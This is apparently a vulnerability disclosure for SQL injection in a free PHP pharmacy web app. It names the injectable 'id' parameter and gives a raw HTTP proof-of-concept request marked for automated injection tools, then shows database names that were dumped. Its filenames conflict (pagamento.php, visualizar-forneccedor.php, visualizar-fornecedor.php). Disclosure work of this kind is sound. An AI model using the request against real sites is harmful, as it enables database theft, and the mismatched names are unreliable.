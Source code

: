 # farmacia-in-php has sql injection in pagamento.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
visualizar-forneccedor.php

## describe
The visualizer-forneccedor.chp file in Farmasia in PHP contains SQL injection. The injection parameter is id, and malicious attackers exploit SQL injection vulnerabilities to obtain database information.

**Code analysis**    
Get the value of ID, concatenate it into an SQL statement, and execute it without any restrictions


![image-20241127113237736](https://github.com/user-attachments/assets/0699dc16-6ba4-444f-b7e8-f594f87210ed)



## POC

```
GET /visualizar-fornecedor.php?id=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

save as  1.txt

**Result**

![image-20241127112914480](https://github.com/user-attachments/assets/ebd8c19d-39c0-4771-b43c-ed0dc023f1a3)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/3b3491ab-6643-416f-a440-c709735132ff)
